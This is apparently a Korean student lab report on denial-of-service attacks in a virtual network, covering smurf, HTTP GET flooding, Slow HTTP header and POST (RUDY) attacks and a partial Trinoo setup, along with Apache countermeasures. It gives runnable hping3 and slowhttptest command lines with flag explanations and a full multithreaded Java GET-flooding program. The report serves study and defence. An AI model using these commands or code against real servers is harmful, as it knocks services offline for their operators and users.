

# 서비스 거부공격

## 서비스 거부 공격이란?

- **Dos** 공격은 공격 대상이 수용할 수 있는 능력 이상의 정보를 제공하거나 사용자 또는 네트워크 용량을 초과시켜 정상적으로 작동하지 못하게 하는 공격이다**.**
- 서버의 [TCP](https://ko.wikipedia.org/wiki/%EC%A0%84%EC%86%A1_%EC%A0%9C%EC%96%B4_%ED%94%84%EB%A1%9C%ED%86%A0%EC%BD%9C) 연결을 바닥내는 등의 공격이 이 범위에 포함된다.
- **분산 서비스 거부 공격**(Distributed DoS attack) 또는 **디디오에스 공격**/**디도스 공격**(DDoS attack)은 여러 대의 공격자를 분산적으로 배치해 동시에 서비스 거부 공격을 하는 방법이다.
- 이번 실습에서는 트워크 계층 공격과 응용 계층 공격으로 나눠 진행해보고, 각 공격의 원리를 이해하고 대응 방안을 생각해본다.
## 실습
- **환경** : Vmware를 활용한 Kali linux, Window, Cent OS 가상 네트워크 구축
- **도구** : *Wireshark , Cent OS 웹서버, JAVA, Trinoo, showhttptest*
- **Attacker** : *Kali Linux*
- **Zombie** : *Cent OS*
- **Victim** : *Window 11*

### 네트워크 계층의 공격 (smurf)

- 네트워크 계층이란?
    - 네트워크 계층에서 데이터 단위는 패킷(Packet)
    - 네트워크 계층은 일반적으로 **IP** 주소와 라우팅을 담당하며 데이터의 패킷화**,** 주소 할당**,** 패킷 전달 등의 기능을 수행하는 계층이다**.**
- smurf 공격이란?
    - **smurf**공격은공격대상의**IP**주소를위조하여 브로드캐스트웹
    - **ping of Death**에**IP Spoofing**을 응용하는 방식으로 공격자의 신원은 감추면서 브로드캐스팅을 통해 다수의 **PC**에서 분산 공격을 실행한다.

    **1. Kali에서 명령어 실행**

     

    > `hping3 {브로드 캐스트 주소} -a {타겟주소} —icmp –flood`

- 좀비 PC의 브로드 캐스트 정책 허용
    - 실습을 진행하였지만 예상과는 달리 **Cent OS**에서 공격을 실행하지 않았다.
    - 브로드 캐스팅 자체에 문제가 있을거라고 판단

     **2. 브로드캣스팅 정책허용**

     

    > `/etc/sysctl.conf` 에서 수정
  
- 왜 브로드 캐스팅 정책은 비활성화 되있는가?
    - 일반적으로는 자원과 보안 문제로 생각
    - 네트워크 내 모든 호스트에게 노출되기 때문에 대량의 트래픽이 발생할 위험성과 중요한 정보가 담긴 패킷을 전송할 경우 해당 네트워크에 노출될 가능성이 존재
    - 실습을 위해서 CentOS의 브로드캐스트 정책을 임시적으로 허용
      
     **3. broadcasing 활성화된 좀비 공격 캡쳐**

     

 - Kali(*Attacker*)에서 공격 후 WireShark 공격후 모습니다.
 - Kali는 자신을 윈도우로 위장하고 같은 네트워크의 CentOs(*zombie*)를 공격에 가담시킨다.
 - 요청을 받은 CentOS는 이에 대한 ICMP Echo Request에 대한 응답을 Window(*Victim*)로 보낸다.
 - 그런데... GateWay도 공격에 참여한다. 왜...?

---

## 응용 계층 공격

- 응용 계층이란?
    - 응용 계층은 가장 **OSI 7**계층의 가장 높은 계층으로써 사용자와 네트워크 사이의 상호작용을 담당
    - 응용 프로토콜의 취약점을 이용하는 공격이 주를 이룬다.

### 웹 서버 구축

  **1. Apache 서버 설치 및 구동**
  
   

  <br>

  - 월활한 실습을 하기 위해 방화벽은 `systemctl stop firewalld` 해제한다.
  <br>

  **2. 웹서버 사이트 화면 구축**

<br>

   
  
   

---

### HTTP GET FLOODING
- 응용 계층의 HTTP 프로토콜을 대상으로 하는 공격이다. 주 목적은 GET을 활용하여 웹 서버의 가용성을 침해하기 위한 목적을 가진 고전적인 공격
  
**1. HTTP GET 패킷 전송** <br>


- HTTP GET 요청을 FOODING하는 JAVA 코드
- for문 기반으로 Get 요청을 목적지 서버에 전송
- JAVA의 for문은 생각보다 느려서 `ExecutorService`와 `invokeAll()` 를 사용한 **Thread**를 활용
- 총 25개의 Thread가 병렬로 실행되어 Get 요청을 목적지 서버에 전송하고, `invokeAll()`가 결과를 리스트에 받아와 성공 유무를 확인하는 방식

    /

**2. 실습결과 WireShark 캡쳐** <br>


- 약 250개 미만의 공격은 매우 빠른 속도로 GET 요청을 보낸다.
- 서버 자체의 원하는 부하를 유도해낼수 없었다...
- 공격에 성공하지 않은 이유 (Apaceh 자체의 보안기능)
    - 첫번째로 캐시 기능으로써 정적 콘텐츠를 캐시하여 반복되는 요청에 대해 처리시간을 줄이는 Apache의 기능
    - 서버가 자체적으로 Rate Limiting을 걸어 특정 IP주소의 요청을 제한하는 정책을 사용하기에 그 이상의 요청은 딜레이를 걸어 처리
- 그렇다면 옵션 CC(Cache-Control)를 추가
    - `no-store`는 응답을 캐시하지 말라는 지시사항으로써 항상 응답을 캐시하지 않고 원본 서버에 요청함을 강제한다.
    - `must-reveaildate`는 캐시의 응답이 유효하지 않다면 다시 서버에 요청하여 새로운 응답을 받아오도록 하는 옵션

      

- 여전히 공격에 대한 효과는 볼수 없었다.
-  동적 HTTP GET FLOODING를 활용하여 Rate Limit을 회피할 수 있지 않을까?
-  리스트를 활용해서 동적 공격을 흉내내는것이 가능하다고 생각

      
     
      

<br>

- 여전히 눈에 띄는 효과를 볼수가 없었다...


--- 
 ### Slow HTTP HEADER Dos

- 서버로 전달되는 HTTP 메시지는 Header과 Body를 개행 문자로 구분한다.
- 개행 문자 없이 HTTP 메시지를 웹 서버로 전송하면 웹 서버는 HTTP 헤더 정보를 다 수신하지 않은 것으로 판단하고 연결을 유지한다.
-  이 개행 문자를 비정상적으로 조작하여 웹 서버가 계속해서 연결을 유지하게끔 만들어 과부하를 유도

  **1. slowhttpest 실행**
  
 <br>  
    
    > `slowhttptest -c 4000 -g -o slowloris -i 10 -r 100 -t GET -x 3 -p 3 -u <target URL>` <br>
    > c: 공격 대상에 연결할 연결 개수  <br>
    > g: 소켓 상태 변화의 통계 생성  <br>
    > o: 통계 파일 이름 지정  <br>
    > i: 데이터 전송 간격 <br>
    > r: 초당 연결 수 <br>
    > t: 요청 시 사용할 메소드 값
    > x: 공격 탐지를 피하기 위한 임의의 문자열
    > p: 지정 시간(초) 이후에도 응답이 없을 시 접속 불가능으로 판단
    > u: 공격 대상 서버의 url

  **2. 서비스 가용상태 확인**
  
 <br>

- 서비스 가용상태가 **NO**로 바뀌었다.

  **3.Victim의 상태확인**
  
   

> `netstat -nt | grep ESTABLISHED`

- Cent OS에서 확인한 상태 비정상적으로 많은 연결이 됨을 확인가능

  **4. 웹 서버, Wireshark, 리포트 확인**
  
 
 
 

- 웹서버에 접속할수 없었다.
- WireShark로 확인 결과 패킷의 끝이 ‘0d 0a’으로, 개행 문자가 비정상적인 것으로 보아 공격에 사용된 패킷임을 추측할 수 있다.
- 5~10초 대에 가용 서비스가 0으로 떨어진 것을 확인할 수 있다.

**5. 보안대책**

 

- Slow HTTP Header DoS는 웹 서버와의 연결을 계속하는 공격
- 웹 서버 자체적으로 최대 연결 유지 가능한 시간을 짧게 설정하면 공격에 대응할 수 있을 것이라고 추측
- apache 설정 파일에 최대 연결 시간을 5초로 제한하는 코드(Timeout 5)를 추가

---

### Slow HTTP POST

- 웹 서버와의 연결을 최대한 오랫동안 유지하고 서버의 자원을 차지하는 공격 방식
- RUDY 공격으로도 불린다.
- 패킷 헤더의 Content-Length를 임의의 큰 값으로 설정하여 웹 서버가 클라이언트로부터 해당 크기의 메세지를 전송받을 때까지 연결을 유지
- 소량의 데이터를 느린 속도로 전송하여 웹 서버와의 커넥션을 장시간 유지하도록 한다.

**1. Slow HTTP POST 공격**

 

> `slowhttptest -B -c 4000 -i 100 -r 200 -s 4096 -t POST -x 3 -g -o rudy -u <Target URL>`
> B: 공격 타입을 RUDY로 설정
> s: Content-Length 설정

- slowhttptest 공격 툴을 사용
  
**2. 서비스 가용상태확인**

 

- 서비스 가용상태가 NO로 바뀐 모습이다.

**3. 웹 서버, WireShark, 리포트 확인**

 
 
 
 

- 웹서버에 접속할수 없었다.
- WireShark로 확인 결과 Content-Length가 4096인 것을 확인할 수 있다.
- 5~10초 대에 가용 서비스가 0으로 떨어진 것을 확인할 수 있다.

**4. 보안대책**

- Apache의 경우 HTTP POST 페이지에 따라 Content-Length의 크기를 제한할 수 있다.
- Content-Length를 제한함으로써 Slow HTTP POST 공격을 대응

 

- `httpd.conf`를 수정하여 Content-Length를 *30byte*로 제한하였다.

---

### Trinoo

**1. Trinoo 설치**

 

**2. Master 설정 및 컴파일**

 
 

**3. Agent 설정**


- agent에 `ns.c`에 master 주소를 수정


**4. Agent 실행**


- ps목록에 Agent가 실행됨을 확인

**5. Agent -> Demon 연결**

-  kali에서 23번포트 telnet이 열리지않기에 마스터 -> 에이전트로의 trinoo 접속이 불가....
-  다른 ssh의 22번 포트같은 경우 또한 kali에서 권한 거부로 인해 접속하지 못하여 더이상 진행하지 못하였다.

---

## 고찰

### smurf 공격에 대한 GateWay

- smurf 공격시 브로드캐스트 정책에 거부 상태에서 게이트웨이는 공격을 하는것에 대한 생각
    - 모든 Zombie PC들의 ICMP reply가 게이트웨이 주소로 바뀌어서  전송된다.
    - 현재 Zombie PC는 공격에 참여하지 않고 Gateway만 ICMP reply를 보내는 것이다.
- 일반적인 dos 공격인 **ping of death**와 GateWay를 활용한 **smurf**를 비교해서 테스트 해보기로 결정

- 일반적인 **ping of death**


- Gateway만 참가한 **smurf**


- 결과
    - 게이트웨이만 참가한 smurf 공격의 패킷이 터무니 없이 부족한 것을 보아 정상적인 공격이 진행되지 않다는 것을 확인
    - 이러한 결과를 바탕으로 2번이 옳은 가설이라는 것을 알 수 있었다
    - 추후 브로드 캐스트 정책을 허용하니 정상적으로 wireshark에 좀비 PC의 ip가 출력되었고 충분히 많은 수의 ICMP 패킷이 전송되고 응답된 것을 확인


- 어째서 게이트웨이도 응답했을까?
    - 게이트웨이는 네트워크의 입구와 출구 로써 트래픽을 관리하는 기능
    - 목적지가 명확한 패킷의 경우 게이트웨이를 거쳐 목적지까지 전송이 되지만 브로드캐스트 주소로 설정했기에 게이트웨이 또한 `ICMP Echo Reply`를 전송 한다는 것은 이상하지 않은 동작이라고 생각
    - 게이트웨이마다 정책의 차이는 있기에 이러한 현상은 다른 환경에서 동일하게 작동할지는 확실할 순 없지만 오히려 이러한 현상은 Gateway도 좀비화가 진행된것으로 보아 **smurf** 공격 자체에는 더욱 좋은 상황이라고 해석


---

## 참고한 자료

- 네트워크 해킹과 보안 4판(양대일, 홍성혁)
- 이대섭, 원동호(2012), “Content-Length 통제기반 HTTP POST DDoS 공격 대응 방법 분석", 한국정보보호학회.
- DDoS 공격 대응 가이드, 한국인터넷진흥원


### 실습에 사용한 JAVA 코드 

```JAVA
import java.io.IOException;
import java.net.HttpURLConnection;
import java.net.URL;
import java.util.ArrayList;
import java.util.List;
import java.util.concurrent.Callable;
import java.util.concurrent.ExecutorService;
import java.util.concurrent.Executors;
import java.util.concurrent.Future;

public class syncGetFlooding {
	public static void main(String[] args) throws Exception {
		List<String> urls = new ArrayList<>();
		urls.add("http://192.168.159.217/");
        urls.add("http://192.168.159.217/login.html");
        urls.add("http://192.168.159.217/register.html");
        urls.add("http://192.168.159.217/register.html");
        urls.add("http://192.168.159.217/utilities-color.html");
        urls.add("http://192.168.159.217/charts.html");
        // 추가적인 URL들을 필요한 만큼 추가합니다.

        long beforeTime = System.currentTimeMillis();
        int totalRequests = 200; // 총 요청 횟수
        int successCount = 0; // 성공한 요청 횟수
        ExecutorService executorService = Executors.newFixedThreadPool(25); // 스레드 풀 생성

        List<Callable<Integer>> callables = new ArrayList<>();
        for (int i = 0; i < totalRequests; i++) {
            int urlIndex = i % urls.size(); // URL 목록에서 순환하도록 인덱스 계산
            String urlString = urls.get(urlIndex);
            final URL url = new URL(urlString);

            callables.add(() -> {
                try {
                    HttpURLConnection conn = (HttpURLConnection) url.openConnection();
                    conn.setRequestMethod("GET");
                    if (conn.getResponseCode() == 200) { // 성공한 경우
                        return 1;
                    }
                } catch (IOException e) {
                    e.printStackTrace();
                }
                return 0;
            });
        }

        List<Future<Integer>> futures = executorService.invokeAll(callables);
        
        executorService.shutdown(); // 스레드 풀 종료

        for (Future<Integer> future : futures) {
            successCount += future.get();
        }

     // 결과 출력
        long afterTime = System.currentTimeMillis(); // 코드 실행 후에 시간 받아오기
        long secDiffTime = (afterTime - beforeTime) / 1000; // 두 시간에 차 계산
        System.out.println("전송 완료 시간: " + secDiffTime + "초");
        System.out.println("Success count: " + successCount);

	}
}


```


